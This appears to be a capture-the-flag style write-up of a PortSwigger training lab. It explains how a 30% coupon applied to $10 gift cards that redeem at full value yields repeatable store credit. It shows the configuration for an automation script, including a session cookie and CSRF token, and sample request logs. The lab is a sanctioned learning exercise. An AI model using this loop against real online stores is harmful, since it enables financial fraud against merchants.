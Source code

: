 # Lab: Infinite money logic flaw
DIFFICULTY: PRACTITIONER
LAB: Solved
TAG: infinite-money-logic-flaw

## Lab Description
This lab has a logic flaw in its purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter

URL: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money

## Solution

We take advantage of a logic flaw, where we can buy a gift card for $10 with a 30% discount (paying only $7), and after we can redeem the gift card again for $10, so we get a profit of $3 per gift cards.

The process is automated with `main.go` to run just do:
```
go run main.go
```

Before running don't forget to updated the configuration variables on the beginning of the file, required conf:
```go
const (
	baseURL = "https://acb81f601fca3cc3809b0e5000d900a0.web-security-academy.net/"
	csrf          = "LCEepui73UVECHlN3R84TDYwCdfXc5cX"         // get this info from a POST request to /cart/coupon using Burp
	cookie        = "session=ZrqCi4oh69dHpHLsSdUv072OJNOfw8Sf" // get this info from a POST request to /cart/coupon using Burp
	targetBalance = 1337
)
```

The script increases the amount of gift cards to buy **until the cap of 99** gift cards per purchase is reached, below you can find the evolution of the purchases and balance:
```
Store Credit Evolution:  [$100 $130 $169 $217 $280 $364 $472 $613 $796 $1033 $1330 $1627]
GiftCard Qty Evolution:  [10   13   16   21   28   36   47   61   79   99    99    ended]
```

## Expected Behaviour

```
$ go run main.go

==================================
==> Current Store Credit: $ 100
=> Buying 10 gift cards to redeem.
==================================

=== Request POST cart
status:  200 OK

=== Request POST cart/coupon
status:  200 OK

=== Request POST cart/checkout
status:  200 OK

=== Request POST gift-card | coupon: WEjfEKdqJu
status:  200 OK

...
```
